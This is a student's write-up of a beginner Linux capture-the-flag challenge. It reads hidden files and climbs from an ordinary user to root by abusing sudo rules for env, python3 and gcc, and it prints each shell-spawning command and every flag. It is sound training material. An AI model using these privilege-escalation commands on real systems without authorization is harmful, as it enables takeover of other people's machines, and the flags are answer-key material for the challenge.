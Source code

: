 So, one of my friends at the university sent me a link to a Facebook post about a CTF challenge for fresher of the KMA CS Club. After nearly 4 hours of playing this challenge (half of the time I went in the wrong way LOL), I finally passed. Here is my write-up on how to solve it.  
## Link to post (sadly deleted)
https://www.facebook.com/photo?fbid=122765970560556&set=a.120329284137558

# Table of Contents
1. [Information Gathering](#Information-Gathering)
2. [Flags Discovering - Part 1](#Flags-Discovering---Part-1)
  a. [flag1.txt](#flag1txt)
  b. [flag3_4](#flag3_4)
  c. [flag5_6.png](#flag5_6png)
3. [Privilege Escalation - `mod`](#Privilege-Escalation---`mod`)
4. [Flags Discovering - Part 2](#Flags-Discovering-Part-2)
  a. [flag7.txt](#flag7txt)
5. [Privilege Escalation - `admin`](#Privilege-Escalation---`admin`)
6. [Flags Discovering - Part 3](#Flags-Discovering-Part-3)
  a. [flag8.txt](#flag8txt)
7. [Privilege Escalation - `root`](#Privilege-Escalation---`root`)
8. [Flags Discovering - Part 4](#Flags-Discovering-Part-4)
  a. [flag2.txt](#flag2txt)
  b. [flag9.txt](#flag9txt)
  c. [flag10.txt](#flag10txt)
  d. [flag5_6.png - hardcore version](#flag5_6png-hardcore-version)
  
## Information Gathering
- Connect to the server using SSH: `ssh user@chall.kcsc.cf -p XXXXX` with the password: `kcsc@123`
- Listing all directories:
  - Directory `/home/user`:
    ```bash
    total 112K
    drwxr-xr-x 1 user user 4.0K Oct  7 15:00 .
    drwxr-xr-x 1 root root 4.0K Oct  4 16:31 ..
    lrwxrwxrwx 1 root root    9 Oct  4 16:22 .bash_history -> /dev/null
    -rw-r--r-- 1 user user  220 Oct  4 16:22 .bash_logout
    -rw-r--r-- 1 user user 3.7K Oct  4 16:22 .bashrc
    drwx------ 2 user user 4.0K Oct  7 15:00 .cache
    -rw-r--r-- 1 user user  807 Oct  4 16:22 .profile
    -rw-r--r-- 1 root root   28 Oct  4 15:32 flag1.txt
    -r-------- 1 root root   36 Oct  4 16:30 flag2.txt
    drwxr-xr-x 2 root root 4.0K Oct  4 16:31 flag3_4
    -rw-r--r-- 1 root root  47K Oct  4 15:32 flag5_6.png
    -r-------- 1 root root   28 Oct  4 15:32 flag9.txt
    -r--r--r-- 1 user user  17K Oct  4 16:22 read_flag2'
    ```
  - Directory `/home/user/flag3_4`:
    ```bash
    total 16K
    -rw-r--r-- 1 root root   30 Oct  4 15:32 -
    drwxr-xr-x 2 root root 4.0K Oct  4 16:31 .
    drwxr-xr-x 1 user user 4.0K Oct  7 15:00 ..
    -rw-r--r-- 1 root root   34 Oct  4 15:32 ...  
    ```
  - Directory `/home/mod`:
    ```bash
    total 28K
    drwxr-xr-x 1 mod  mod  4.0K Oct  4 16:31 .
    drwxr-xr-x 1 root root 4.0K Oct  4 16:31 ..
    lrwxrwxrwx 1 root root    9 Oct  4 16:31 .bash_history -> /dev/null
    -rw-r--r-- 1 mod  mod   220 Oct  4 16:31 .bash_logout
    -rw-r--r-- 1 mod  mod  3.7K Oct  4 16:31 .bashrc
    -rw-r--r-- 1 mod  mod   807 Oct  4 16:31 .profile
    -r--r----- 1 mod  mod    31 Oct  4 15:32 flag7.txt
    ```
  - Directory `/home/admin`:
    ```bash
    drwxr-xr-x 1 admin admin 4.0K Oct  7 15:04 .
    drwxr-xr-x 1 root  root  4.0K Oct  4 16:31 ..
    lrwxrwxrwx 1 root  root     9 Oct  4 16:31 .bash_history -> /dev/null
    -rw-r--r-- 1 admin admin  220 Oct  4 16:31 .bash_logout
    -rw-r--r-- 1 admin admin 3.7K Oct  4 16:31 .bashrc
    -rw-r--r-- 1 admin admin  807 Oct  4 16:31 .profile
    -rw-r--r-- 1 admin admin    0 Oct  7 15:04 .sudo_as_admin_successful
    -r--r----- 1 admin admin   30 Oct  4 15:32 flag8.txt
    ```
  - Directory `/`:
    ```bash
    bin  boot  dev  etc  flag10.txt  home  lib  lib32  lib64  libx32  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var
    ```
## Flags Discovering - Part 1
### flag1.txt
Simply use the command `cat flag1`, we get the flag: `KCSC{part_1_read_file_4zs0}`
### flag3_4
- `flag3`: Using `ls -lah` to list all the file in `flag3_4` folder, we see a file with the name `-`. Using command `cat ./-`, we get the flag: `KCSC{part_3_read_file_strike}`  
- `flag4`: We can also see that in this folder, there is a file name `...`. Using command `cat ./...`, we get the flag: `KCSC{part_4_read_file_quadra_dot}`
### flag5_6.png
- `flag6`: By checking strings in the image file: `strings flag5_6.png`, we get the flag: `KCSC{part_6_read_me_pls}`
- `flag5`: There are 2 ways to get this flag:
  1. Because we cannot display the png using the terminal without any GUI tool, we must somehow retrieve this file in our computer, which allows us to see the image file. To do so, first, we must copy the image file to the `/tmp` folder to be able to copy this file: `cp flag5_6.png /tmp`. Then, in our machine's terminal, using `scp` command to copy this file to our computer: `scp -P XXXXX user@chall.kcsc.cf:/tmp/flag5_6.png /tmp`. Open this file, we get the flag: `KCSC{part_5_u_know_scp}`  
  2. At first, I don't remember the `scp` way, so my idea is to achieve the `root` privilege, then install some tool to read the image's content directly in the terminal. This way took a very long time (we must get the `root` privilege first), but it is possible and you will see later.
## Privilege Escalation - `mod`
We return back to `/home` to check how many users are available on this machine. The remaining 2 users are `mod` and `admin`, and each user's `home` folder has a flag file which only that user can open. So, we must somehow "become" those users to be able to read those flag. Checking `sudo -l` for any exploitable vulnerabilities:
```bash
user@kcsc:~$ sudo -l
Matching Defaults entries for user on kcsc:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User user may run the following commands on kcsc:
    (root) NOPASSWD: /home/user/read_flag2
    (mod) NOPASSWD: /usr/bin/env
```
Searching on [gtfobin](https://gtfobins.github.io), we see that `env` binary can be used for privilege escalation, as this can be run as `mod` user without requiring any password. So, we try to spawn a shell with `mod` privilege using `env`: `sudo -u mod env /bin/bash`, and now we have become `mod`!
## Flags Discovering - Part 2
### flag7.txt
Now, we can simply run the command `cat flag7.txt` to get the flag: `KCSC{part_7_wow_u_r_quite_gud}`
## Privilege Escalation - `admin`
The only user left before getting `root` is `admin`. Checking `sudo -l` for any exploitable vulnerabilities:
```
mod@kcsc:~$ sudo -l
Matching Defaults entries for mod on kcsc:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User mod may run the following commands on kcsc:
    (admin) NOPASSWD: /usr/bin/python3
```
The `python3` binary can also be used for privilege escalation, so we spawn a shell with `admin` privilege using this binary: `sudo -u admin python3 -c 'import os; os.system("/bin/sh")'`. 
## Flags Discovering - Part 3
### flag8.txt
Now, we can simply `cat flag8.txt` to get the flag: `KCSC{part8_hmm_u_know_env_sh}`
## Privilege Escalation - `root`
Final target! Checking `sudo -l` for any exploitable vulnerabilities:
```bash
$ sudo -l
Matching Defaults entries for admin on kcsc:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User admin may run the following commands on kcsc:
    (ALL) ALL
    (root) NOPASSWD: /usr/bin/gcc
```
Again, `gcc` can be exploited to spawn a shell with `root` privilege: `sudo -u root gcc -wrapper /bin/sh,-s .`. Now, we have become `root`!
## Flags Discovering - Part 4
### flag2.txt
In the `/home/user` folder, the file `flag2.txt`, along with `flag9.txt`, is `root` only. Now, as we become `root`, we can `cat flag2.txt` to get the flag: `KCSC{part_2_hello_pls_not_get_root}`
### flag9.txt
Like `flag2.txt`, `cat flag9.txt` give us the flag: `KCSC{part_9_r_u_vim_lord??}`
### flag10.txt
Using `find` command to find this file: `find / -name flag10.txt 2>/dev/null`, we found this file at `/` directory. `cat flag10.txt` give us the final flag: `KCSC{part_10_tuong_vy_la_con_nao_the???}` (sus?)
### flag5_6.png (hardcore version)
As I mentioned before, when become `root` we can get this flag without using `scp`. [chafa](https://hpjansson.org/chafa/) is a tool that allow us to see the content of image file directly on the terminal. Install the tool and open the image using this tool, we can still get the same flag as the `scp` way:
```bash
sudo apt-get install chafa
chafa flag5_6.png
```
